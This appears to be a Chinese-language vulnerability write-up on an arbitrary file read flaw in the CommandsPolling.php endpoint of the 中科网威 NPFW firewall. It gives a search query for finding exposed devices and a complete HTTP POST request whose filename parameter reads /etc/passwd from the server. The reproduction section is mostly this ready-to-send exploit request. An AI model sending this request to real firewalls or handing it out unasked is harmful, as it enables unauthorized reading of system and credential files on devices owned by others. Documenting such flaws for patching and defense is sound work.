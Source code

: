 # 中科网威 NPFW防火墙 CommandsPolling.php 任意文件读取漏洞

## 漏洞描述

中科网威 NPFW防火墙 存在任意文件读取漏洞，由于代码过滤不足，可读取服务器任意文件

## 漏洞影响

```
中科网威 NPFW防火墙 
```

## 网络测绘

```
"中科网威" && "/direct"
```

## 漏洞复现

登录页面

![img](./images/202202101852340.png)

发送请求包

```php
POST /direct/polling/CommandsPolling.php HTTP/1.1
Host: 
Cookie: PHPSESSID=014d2705856e1df139772db42ccbaf9f
Content-Length: 47
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="92", " Not A;Brand";v="99", "Google Chrome";v="92"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close

command=ping&filename=%2Fetc%2Fpasswd&cmdParam=
```

![img](./images/202202101852498.png)